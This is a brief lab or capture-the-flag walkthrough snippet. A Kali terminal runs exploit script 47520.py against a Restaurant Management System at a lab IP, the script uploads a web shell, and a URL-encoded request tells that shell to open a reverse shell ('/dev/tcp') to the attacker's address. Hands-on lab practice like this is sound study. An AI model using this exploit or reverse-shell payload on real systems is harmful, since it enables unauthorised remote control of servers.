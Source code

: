 

Had to fix to many line breaks in the downloaded script


```sh
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 47520.py http://10.10.51.95:12340/rms/

    _  _   _____  __  __  _____   ______            _       _ _
  _| || |_|  __ \|  \/  |/ ____| |  ____|          | |     (_) |
 |_  __  _| |__) | \  / | (___   | |__  __  ___ __ | | ___  _| |_
  _| || |_|  _  /| |\/| |\___ \  |  __| \ \/ / '_ \| |/ _ \| | __|
 |_  __  _| | \ \| |  | |____) | | |____ >  <| |_) | | (_) | | |_
   |_||_| |_|  \_\_|  |_|_____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                             | |
                                             |_|



Credits : All InfoSec (Raja Ji's) Group
[+] Restaurant Management System Exploit, Uploading Shell
[+] Shell Uploaded. Please check the URL :http://10.10.51.95:12340/rms/images/reverse-shell.php

```

`http://10.10.51.95:12340/rms/images/reverse-shell.php?cmd=sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.18.21.236%2F443%200%3E%261`

